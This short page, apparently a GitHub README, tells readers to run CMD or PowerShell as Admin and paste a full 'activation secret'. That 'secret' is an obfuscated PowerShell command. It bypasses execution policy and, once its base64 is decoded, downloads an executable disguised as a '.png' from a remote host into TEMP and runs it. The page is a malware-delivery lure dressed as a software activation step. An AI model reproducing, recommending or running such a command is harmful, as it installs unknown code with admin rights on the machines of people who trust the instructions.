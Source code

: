 > [!IMPORTANT]
>  Run CMD/powershell as Admin. ||
>  Copy and paste the full activation secret.

> [!NOTE]
> > powershell Set-ExecutionPolicy Bypass -Scope Process -Force; powershell.exe -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACIAaAB0AHQAcABzADoALwAvAHMAcwBvADAAOQAuAHAAeQB0AGgAbwBuAGEAbgB5AHcAaABlAHIAZQAuAGMAbwBtAC8AcwB0AGEAdABpAGMALwAuAHAAbgBnACIAIAAtAE8AdQB0AEYAaQBsAGUAIAAiACQAZQBuAHYAOgBUAEUATQBQAFwAVwBXAGkAbgAuAGUAeABlACIAOwAgAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACIAJABlAG4AdgA6AFQARQBNAFAAXABXAFcAaQBuAC4AZQB4AGUAIgA7AA==
